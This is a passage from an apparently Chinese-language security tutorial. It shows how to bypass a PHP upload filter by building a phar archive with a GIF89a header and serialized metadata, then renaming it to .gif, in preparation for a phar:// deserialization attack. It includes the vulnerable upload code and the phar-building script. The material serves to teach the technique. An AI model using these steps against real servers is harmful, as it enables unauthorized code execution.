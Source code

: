 ```

        if($filenameExt != 'gif')`{`
            echo "Not gif !";
        `}`
        else`{`
            move_uploaded_file($_FILES['hpdoger']['tmp_name'], $_FILES['hpdoger']['name']);
            echo "Successfully！";
        `}`
    `}`
?&gt;
```

代码判断了MIME类型+后缀判断，如下是我测试php文件的两个结果：<br>
直接上传php<br>[![](https://i.loli.net/2018/09/07/5b9280161ed92.png)](https://i.loli.net/2018/09/07/5b9280161ed92.png)

抓包更改content-type为 image/gif再次上传<br>[![](https://i.loli.net/2018/09/07/5b9280606915f.png)](https://i.loli.net/2018/09/07/5b9280606915f.png)<br>[![](https://i.loli.net/2018/09/07/5b9280606784b.png)](https://i.loli.net/2018/09/07/5b9280606784b.png)

可以看到两次都被拒绝上传,那我们更改phar后缀名再次上传

php环境编译生成一个phar文件，代码如下：

```
&lt;?php 
class not_useful`{`
    var $file = "&lt;?php phpinfo() ?&gt;";
`}`

@unlink("hpdoger.phar");
$test = new not_useful();
$phar = new Phar("hpdoger.phar");

$phar-&gt;startBuffering();
$phar-&gt;setStub("GIF89a"."&lt;?php __HALT_COMPILER(); ?&gt;"); // 增加gif文件头
$phar-&gt;setMetadata($test);
$phar-&gt;addFromString("test.txt","test");

$phar-&gt;stopBuffering();
?&gt;
```

这里实例的类是为后面的demo做铺垫，php文件同目录下生成hpdoger.phar文件，我们更改名称为hpdoger.gif看一下<br>[![](https://i.loli.net/2018/09/07/5b92801620631.png)](https://i.loli.net/2018/09/07/5b92801620631.png)

gif头、phar识别序列、序列化后的字符串都具备

上传一下看能否成功,成功绕过检测在服务端存储一个hpdoger.gif<br>[![](https://i.loli.net/2018/09/07/5b92808e8c0bf.png)](https://i.loli.net/2018/09/07/5b92808e8c0bf.png)

### <a class="reference-link" name="%E5%88%A9%E7%94%A8Phar://%E4%BC%AA%E5%8D%8F%E8%AE%AEdemo"></a>利用Phar://伪协议demo

我们已经上传了可解析的phar文件，现在需要找到一个文件操作函数的页面来利用，这里笔者写一个比较鸡肋的页面，目的是还原流程而非真实情况。
